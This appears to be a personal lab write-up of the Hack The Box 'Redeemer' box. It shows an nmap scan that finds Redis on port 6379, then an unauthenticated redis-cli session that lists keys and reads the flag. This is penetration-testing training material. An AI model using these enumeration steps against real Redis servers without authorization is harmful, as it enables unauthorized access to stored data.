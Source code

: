 ## Box: [Redeemer] — Started: 2025-10-05 22:10

**IP/Host:** `HTB Attackbox`  |  **Status:** `Owned 25-10-05`

### TL;DR

Initial: `redis-cli -h IPADDR`.
Path to Flag Cap:
**NOTE**: Denoting full path to flag cap here because Redis's command structure is a tad arcane if you're not used to it
- `info` - gets all database information, including the keyspace. Technically, I actually used the `info keyspace` command, which told me the keyspace info more directly
- `select 0` - to select `db0` from the `info keyspace` results
- `KEYS *` - list all keys in currently selected db
- `get flag` - get the string at key named "flag", which was the flag for this box

*Cumulative Impact Overview*:
- `redis-cli` practice

### Exploit Lifecycle

1. *Validation & Recon*: HTB CTF
2. *Enumeration & Scanning*:
    - `nmap -sV -p- 10.129.204.92` - found port 6379, a redis port
3. *Findings & Exploits*:
    - `redis-cli -h IPADDR` - connect to redis host at IPADDR
4. *PrivEsc*: N/A
5. *Post-Exploitation*: 
    - - `info` - gets all database information, including the keyspace. Technically, I actually used the `info keyspace` command, which told me the keyspace info more directly
    - `select 0` - to select `db0` from the `info keyspace` results
    - `KEYS *` - list all keys in currently selected db
    - `get flag` - get the string at key named "flag", which was the flag for this box

*Proof — path to flags/screenshot of boxpwn*:

![[2_Studies/Courses/Current/CERTPREP - PJPT-Practical Jr Pen Tester/VulnBoxes/Hack The Box/Starting Point/z_attachments/Pasted image 20251005220644.png]]

### Findings
Use espanso command, `:finding`, then remove `UNCONFIRMED` as findings are POCd and remove RMRK with remarks

- *UNCONFIRMED - Found*: PORT - IPADDR - 2025-10-04 23:35:22 - RMRK


### Commands Learned or Commands Used
```bash
$ redis-cli -h IPADDR             # connect to host
10.129.157.24:6379> info          # get info on db, can also specify information you need, like `info keyspace`
10.129.157.24:6379> select 0      # select db
10.129.157.24:6379> KEYS *        # list available keys
10.129.157.24:6379> get keyname   # get string of keyname
```

